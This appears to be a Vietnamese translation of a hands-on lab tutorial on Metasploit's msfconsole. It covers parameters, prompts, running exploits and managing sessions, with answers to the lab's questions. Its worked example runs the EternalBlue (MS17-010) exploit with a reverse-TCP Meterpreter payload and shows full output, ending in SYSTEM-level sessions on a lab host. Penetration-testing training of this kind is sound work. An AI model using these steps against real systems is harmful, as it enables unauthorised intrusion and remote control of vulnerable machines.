Bạn có thể khởi chạy máy mục tiêu đính kèm với phòng lab này để thực hiện lại các ví dụ được minh họa bên dưới. Bất kỳ phiên bản Metasploit nào từ 5 hoặc 6 đều có các menu và màn hình tương tự như hình minh họa, vì vậy bạn có thể sử dụng AttackBox hoặc bất kỳ hệ điều hành nào đã cài đặt trên máy tính cá nhân.

Khi bạn đã vào ngữ cảnh của một module bằng lệnh `use` kèm theo tên module (như đã thấy trước đó), bạn sẽ cần đặt các tham số. Các tham số thường dùng nhất được liệt kê bên dưới. Hãy nhớ rằng, tùy thuộc vào module bạn sử dụng, có thể cần phải đặt thêm hoặc đặt các tham số khác nhau. Bạn nên sử dụng lệnh `show options` để liệt kê các tham số bắt buộc.

Tất cả các tham số đều được đặt bằng cùng cú pháp:

```
set PARAMETER_NAME VALUE
```

Trước khi tiếp tục, hãy luôn kiểm tra dấu nhắc lệnh của msfconsole để đảm bảo bạn đang ở đúng ngữ cảnh. Khi làm việc với Metasploit, bạn có thể gặp năm loại dấu nhắc khác nhau:

* **The regular command prompt**: Bạn không thể sử dụng các lệnh của Metasploit ở đây.

```bash
root@ip-10-10-XX-XX:~#
```

* **The msfconsole prompt - Dấu nhắc msfconsole**: `msf6` (hoặc `msf5` tùy thuộc vào phiên bản bạn đã cài đặt) là dấu nhắc của msfconsole. Như bạn thấy, không có ngữ cảnh nào được thiết lập ở đây, vì vậy các lệnh đặc thù cho ngữ cảnh để đặt tham số và chạy module sẽ không thể sử dụng tại đây.

```bash
msf6 >
```

* **A context prompt - Dấu nhắc ngữ cảnh**: Khi bạn đã quyết định sử dụng một module và dùng lệnh `set` để chọn nó, msfconsole sẽ hiển thị ngữ cảnh. Bạn có thể dùng các lệnh đặc thù cho ngữ cảnh tại đây (ví dụ: `set RHOSTS 10.10.x.x`).

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

* **The Meterpreter prompt - Dấu nhắc Meterpreter**: Meterpreter là một payload quan trọng mà chúng ta sẽ tìm hiểu chi tiết hơn trong module này. Điều này có nghĩa là một agent Meterpreter đã được tải lên hệ thống mục tiêu và kết nối ngược lại với bạn. Bạn có thể sử dụng các lệnh đặc thù của Meterpreter tại đây.

>Meterpreter là một payload tấn công của Metasploit, cung cấp một shell tương tác cho phép kẻ tấn công khám phá máy mục tiêu và thực thi mã. Nó thường được triển khai bằng cách sử dụng kỹ thuật tiêm DLL vào bộ nhớ (in-memory DLL injection) để tồn tại hoàn toàn trong bộ nhớ.

```bash
meterpreter >
```
**A shell on the target system - Một shell trên hệ thống mục tiêu:** Khi khai thác hoàn tất, bạn có thể truy cập vào một command shell trên hệ thống mục tiêu. Đây là một dòng lệnh thông thường, và tất cả các lệnh nhập vào đây sẽ được thực thi trên hệ thống mục tiêu.

```bash
C:\Windows\system32>
```

Như đã đề cập trước đó, lệnh `show options` sẽ liệt kê tất cả các tham số hiện có.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Như bạn có thể thấy trong ảnh chụp màn hình ở trên, một số tham số này yêu cầu giá trị để exploit hoạt động. Một số giá trị tham số bắt buộc sẽ được điền sẵn, hãy đảm bảo kiểm tra xem chúng có cần giữ nguyên cho mục tiêu của bạn không.

Ví dụ: một web exploit có thể có RPORT (cổng từ xa: cổng trên hệ thống mục tiêu mà Metasploit sẽ cố gắng kết nối và chạy exploit) được đặt sẵn là 80, nhưng ứng dụng web mục tiêu của bạn có thể đang sử dụng cổng 8080.

Trong ví dụ này, chúng ta sẽ đặt tham số RHOSTS thành địa chỉ IP của hệ thống mục tiêu bằng cách sử dụng lệnh `set`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Khi bạn đã đặt một tham số, bạn có thể dùng lệnh `show options` để kiểm tra xem giá trị đã được đặt đúng chưa.

Các tham số bạn thường sử dụng gồm:

* **RHOSTS**: "Remote host", địa chỉ IP của hệ thống mục tiêu. Có thể đặt một địa chỉ IP duy nhất hoặc một dải mạng. Hỗ trợ cú pháp CIDR (Classless Inter-Domain Routing) như `/24`, `/16`, v.v., hoặc dải mạng (ví dụ: `10.10.10.x – 10.10.10.y`).
  Ngoài ra, bạn cũng có thể sử dụng một file chứa danh sách mục tiêu, mỗi dòng một mục tiêu, với cú pháp:

  ```
  file:/path/of/the/target_file.txt
  ```



* **RPORT**: "Remote port" – cổng trên hệ thống mục tiêu mà ứng dụng dễ bị tấn công đang chạy.
* **PAYLOAD**: Payload bạn sẽ sử dụng với exploit.
* **LHOST**: "Localhost" – địa chỉ IP của máy tấn công (AttackBox hoặc Kali Linux).
* **LPORT**: "Local port" – cổng bạn sẽ dùng cho reverse shell để kết nối ngược lại. Đây là cổng trên máy tấn công và có thể đặt thành bất kỳ cổng nào chưa được sử dụng.
* **SESSION**: Mỗi kết nối tới hệ thống mục tiêu bằng Metasploit sẽ có một session ID. Bạn sẽ dùng nó với các module hậu khai thác để kết nối lại hệ thống mục tiêu bằng kết nối hiện có.

Bạn có thể ghi đè bất kỳ tham số đã đặt bằng lệnh `set` với giá trị mới.
Bạn cũng có thể xóa giá trị tham số bằng lệnh `unset`, hoặc xóa toàn bộ tham số đã đặt bằng lệnh `unset all`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > unset all
Flushing datastore...
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Bạn có thể dùng lệnh **`setg`** để đặt giá trị sẽ được dùng cho tất cả các module.
Lệnh **`setg`** được sử dụng giống như lệnh **`set`**, nhưng điểm khác biệt là:

* Nếu bạn dùng **`set`** để đặt giá trị trong một module rồi chuyển sang module khác, bạn sẽ phải đặt lại giá trị.
* Còn **`setg`** sẽ đặt giá trị mặc định để dùng chung cho các module khác nhau.

Bạn có thể xóa bất kỳ giá trị nào đã đặt bằng **`setg`** bằng lệnh **`unsetg`**.

**Ví dụ quy trình dưới đây:**

1. Sử dụng module `ms17_010_eternalblue`
2. Đặt biến `RHOSTS` bằng lệnh **`setg`** thay vì **`set`**
3. Dùng lệnh **`back`** để thoát khỏi ngữ cảnh exploit
4. Sử dụng một module auxiliary (scanner phát hiện lỗ hổng MS17-010)
5. Lệnh **`show options`** hiển thị rằng tham số `RHOSTS` đã được điền sẵn với địa chỉ IP của hệ thống mục tiêu

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > use auxiliary/scanner/smb/smb_ms17_010 
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                                                Required  Description
   ----         ---------------                                                --------  -----------
   CHECK_ARCH   true                                                           no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                           no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                          no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /opt/metasploit-framework-5101/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS       10.10.165.39                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT        445                                                            yes       The SMB service port (TCP)
   SMBDomain    .                                                              no        The Windows domain to use for authentication
   SMBPass                                                                     no        The password for the specified username
   SMBUser                                                                     no        The username to authenticate as
   THREADS      1                                                              yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) >
```

Lệnh **`setg`** đặt một giá trị toàn cục sẽ được dùng cho đến khi bạn thoát khỏi Metasploit hoặc xóa nó bằng lệnh **`unsetg`**.

---

### Sử dụng module

Khi đã đặt tất cả tham số của module, bạn có thể khởi chạy module bằng lệnh **`exploit`**.
Metasploit cũng hỗ trợ lệnh **`run`** (tương đương với **`exploit`**), được tạo ra để sử dụng với các module không phải là exploit (ví dụ: quét cổng, quét lỗ hổng...).

* Lệnh **`exploit`** có thể dùng mà không cần tham số hoặc kèm tham số **`-z`**.
* Lệnh **`exploit -z`** sẽ chạy exploit và đưa phiên làm việc (session) xuống chế độ nền ngay khi nó mở ra.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

[*] Started reverse TCP handler on 10.10.44.70:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.12.229
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186) at 2021-08-20 02:06:48 +0100
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 2 created in the background.
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Điều này sẽ đưa bạn trở lại dấu nhắc ngữ cảnh (context prompt) nơi bạn đã chạy exploit.

Một số module hỗ trợ tùy chọn **`check`** — tùy chọn này cho phép kiểm tra xem hệ thống mục tiêu có dễ bị tấn công hay không mà không cần khai thác.

---

### Phiên làm việc (Sessions)

Khi một lỗ hổng đã được khai thác thành công, một **phiên** sẽ được tạo ra. Đây là kênh giao tiếp giữa hệ thống mục tiêu và Metasploit.

Bạn có thể dùng lệnh **`background`** để đưa phiên làm việc xuống chế độ nền và quay lại dấu nhắc **msfconsole**.

```bash
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

Ngoài ra, bạn có thể dùng **`CTRL+Z`** để đưa phiên làm việc xuống chế độ nền.

Lệnh **`sessions`** có thể được sử dụng từ dấu nhắc **msfconsole** hoặc bất kỳ ngữ cảnh nào để xem các phiên hiện có.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 >
```

Để tương tác với bất kỳ phiên nào, bạn có thể dùng lệnh **`sessions -i`** kèm theo số phiên mong muốn.

---

**Trả lời các câu hỏi dưới đây**

1. **Đặt giá trị LPORT thành 6666**

   ```
   set LPORT 6666
   ```

2. **Đặt giá trị toàn cục cho RHOSTS là 10.10.19.23**

   ```
   setg RHOSTS 10.10.19.23
   ```

3. **Xóa một payload đã đặt**

   ```
   unset PAYLOAD
   ```

4. **Tiến hành giai đoạn khai thác**

   ```
   exploit
   ```


